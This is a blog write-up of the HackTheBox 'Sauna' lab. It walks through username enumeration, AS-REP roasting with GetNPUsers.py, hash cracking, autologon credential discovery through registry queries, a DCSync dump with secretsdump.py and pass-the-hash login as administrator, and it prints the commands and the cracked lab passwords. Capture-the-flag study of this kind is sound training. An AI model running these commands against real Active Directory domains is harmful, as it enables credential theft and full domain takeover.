 ```yaml
---
layout: post
title: Sauna Machine Walkthrough
description: >
    Sauna Hackthebox Machine Detailed Walkthrough
sitemap: false
categories: [Hackthebox]
permalink: /:categories/book.html
---
```


***"Technology is just a tool. In terms of getting the kids working together and motivating them, the teacher is the most important."***   - Bill Gates
{:.lead}
![](http://localhost:4000//assets/img/blog/HTB/sauna/poster.jpeg)

* toc
{:toc .large-only}

## Machine Matrix
![](http://localhost:4000//assets/img/blog/HTB/sauna/machinematrix.png)

## Machine Summary
Box has an webapplication running, from which we enumerated the usernames. We made certain modifications on the usernames and ran GetNPUsers.py from impacket library inorder to check whether any user has kerberos pre-authentication disabled. As expected one (fsmith) user as kerberos pre-authentication disabled and using winrm we get the user shell. Now for privilege escalation, we find that there is a default crendentials stored for a user (svs_loanmgr) but that that is not the administrator. We use secretsdump.py again from impacket library to dump the crendentials of all the user including the administrator.

## Nmap Scan
I started the enumeration with nmap scan
```bash
nmap -sC -sV 10.10.10.10.175
```
![](http://localhost:4000//assets/img/blog/HTB/sauna/1.png)

The Box had 12 ports open

| Port         | Service           |
|:-------------|:------------------|
| 53           | domain            |
| 80           | http IIS Server   |
| 88           | kerberos-sec      |
| 135          | msrpc             |
| 139          | netbios-ssn       |
| 389          | ldap              |
| 445          | microsoft-ds      |
| 464          | kpasswd5          |
| 593          | ncacan_http       |
| 636          | tcpwrapped        |
| 3268         | ldap              |
| 3269         | tcpwrapped        |

## Enumeration on port 80
I enumerated on the webapplication to check if there is any misconfigurations that could lead us to initial foothold but that didnt end well. We have potential names of the employees and check with any of the user have kerberos pre-authentication disabled.
```
fergus smith
shaun coins
sophie driver
bowie taylor
hugo bear
steven kerb
```

![](http://localhost:4000//assets/img/blog/HTB/sauna/2.png)

## Enumerating with usernames

I formed a list of usernames of the  Active Directory, i formed the list using certain naming conventions such as username for John Melon can be 
```
j.melon 
jmelon
johnm
john.melon
john.m
```
![](http://localhost:4000//assets/img/blog/HTB/sauna/3.png)

## Kerberos Pre-Authentication
The Key Distribution Center (KDC) is available as part of the domain controller and performs two key functions which are: Authentication Service (AS) and Ticket-Granting Service (TGS)

By default the KDC requires all accounts to use pre-authentication. This is a security feature which offers protection against password-guessing attacks. The AS request identifies the client to the KDC in plain text. If pre-authentication is enabled, a time stamp will be encrypted using the user's password hash as an encryption key. If the KDC reads a valid time when using the user's password hash, which is available in the Active Directory, to decrypt the time stamp, the KDC knows that request isn't a replay of a previous request.

When you do not enforce pre-authentication, a malicious attacker can directly send a dummy request for authentication. The KDC will return an encrypted TGT and the attacker can brute force it offline.

![](http://localhost:4000//assets/img/blog/HTB/sauna/kerberos_preauthentication.png)

## Acquring User Shell
Some time kerberos pre-authentication is disabled for the domain users. As mentioned earlier we can get the encrypted TGT with a dumy query using GetNPUsers.py from impacket library with the username list that i have formed.
```bash
GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile usernames.txt -no-pass -format john -outputfile hash.txt
```
![](http://localhost:4000//assets/img/blog/HTB/sauna/4.png)

I was able to retrive the kerberos hash for the username fsmith

![](http://localhost:4000//assets/img/blog/HTB/sauna/5.png)

I cracked the obtained hash of fsmith using john, the password for fsmith was ***Thestrokes23***

![](http://localhost:4000//assets/img/blog/HTB/sauna/6.png)

Now i used evil-winrm tool with the username as *fsmith* and password as *Thestrokes23* to get the shell.

## Privilege Escalation 
As usual i ran winpeas for enumerating on the privilege escalation, found there was an autologon credentials for the user svc_loanmanager

![](http://localhost:4000//assets/img/blog/HTB/sauna/7.png)

we can also manually verify it using the command:
```powershell
REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultPassword
```
or 
```powershell
REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultPassword /reg:64
```
```
Auto Logon Credentials
username: svc_loanmanager
password: Moneymakestheworldgoround!
```
Getting the administrator access won't be this simple, i was not able to get the shell for  the user svc_loanmanager. The user's folder had only fmsith, svc_loanmgr, administrator (enumerated using the fsmith access).
Now i tried with the username svc_loanmgr, got the shell
I manually enumerated it and found that it is a part of domain controlle

So i ran secretsdump.py to dump the credentials of all the users.
```bash
secretsdump.py EGOTISTICAL-BANK.local/svc_loanmgr@EGOTISTICAL-BANK.local
```
![](http://localhost:4000//assets/img/blog/HTB/sauna/8.png)

Now i used the NTLM hash of the administrator directly in evil-winrm to get the shell
```bash
evil-winrm -i 10.10.10.175 -u administrator -H {HASH}
```
![](http://localhost:4000//assets/img/blog/HTB/sauna/9.png)

![](http://localhost:4000//assets/img/blog/HTB/sauna/sauna.png)

Happy Hacking!